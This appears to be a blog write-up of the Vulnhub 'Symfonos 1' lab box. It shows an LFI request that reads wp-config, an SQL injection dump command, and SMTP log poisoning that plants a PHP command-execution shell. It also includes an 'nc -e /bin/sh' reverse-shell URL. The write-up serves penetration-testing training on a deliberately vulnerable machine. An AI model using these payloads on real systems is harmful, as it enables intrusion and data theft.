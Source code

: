 ```yaml
---
layout: post
title:  "Vulnhub: Symfonos 1"
date:   2021-02-01 19:00:00 +1100
category: hacking
---
```


## Symfonos 1
*Beginner real life based machine designed to teach a interesting way of obtaining a low priv shell.*

This box is on the [NetSecFocus Admin list](https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=0) of OSCP-like machines. It's [SYMFONOS: 1](https://www.vulnhub.com/entry/symfonos-1,322/) from Vulnhub. I did not complete it without hints; nothing like getting humbled by a 'beginner' box to bring you back to earth.

But, it was enlightening, so definitely worth the write up although I will skip over a bit of it.

## Ports
1. 22/tcp  open  ssh          syn-ack ttl 64
2. 25/tcp  open  smtp         syn-ack ttl 64
3. 80/tcp  open  http         syn-ack ttl 64
4. 139/tcp open  netbios-ssn  syn-ack ttl 64
5. 445/tcp open  microsoft-ds syn-ack ttl 64

So it's SSH, SMTP, HTTP and SMB

## SMB
There are two directories, one with anonymous access and one without. Without gives us hints that get us to the one requiring authentication, which in turn leads to a hidden web directory: */h3l105*

## h3l105
The website is a Wordpress site. *wpscan* gives me no plugins (passive, mixed or aggressive), and just one user: *admin*. The core version is not known to be vulnerable. I try a password attack with *rockyou*, but it's going nowhere.

This is where (after lots of failing) I went looking for a hint. It turns out there is a vulnerable plugin (Mail Masta), which *wpscan* used to detect but for some reasons doesn't anymore??

It has two vulns; LFI and SQLi.

With a little encoding trick, I can read *wp-config*:

``
GET /h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=/var/www/html/h3l105/wp-config.php HTTP/1.1
``

But there is no password reuse going on here. There is also no SSH key, and I can't read the Apache logs.

I use the SQLi to dump the database:

``
-u 'http://symfonos.local:80/h3l105/wp-content/plugins/mail-masta/inc/lists/csvexport.php?list_id=00+OR+1%3D1&pl=/var/www/html/h3l105//wp-load.php' --dump --cookie='wordpress_test_cookie=WP+Cookie+check'
``

But I can't crack the hash. Now what?

## SMTP 
This is the real beauty of this box. You can poison the *helios* account mail with the SMTP service, and use the LFI to get a shell:

{% highlight shell %}
root@kali:/opt/vulnhub/symfonos1# telnet 192.168.1.71 25
Trying 192.168.1.71...
Connected to 192.168.1.71.
Escape character is '^]'.
220 symfonos.localdomain ESMTP Postfix (Debian/GNU)
MAIL FROM: ghost
250 2.1.0 Ok
RCPT TO: Helios
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
<?php system($_GET['cmd']); ?>
.
250 2.0.0 Ok: queued as 5E75540896
{% endhighlight %}

Simple. Beautiful. Totally missed it, lol. Shell time:

``
http:symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=nc -e /bin/sh 192.168.1.150 1234
``

## Privesc
The privesc was a binary calling a system binary (curl) without a path; the only odd part about this was that it worked with */bin/sh* but not with */bin/bash*. That is, it would set the **euid** correctly with *sh*, but not *bash*. Other than that it was not unusual.
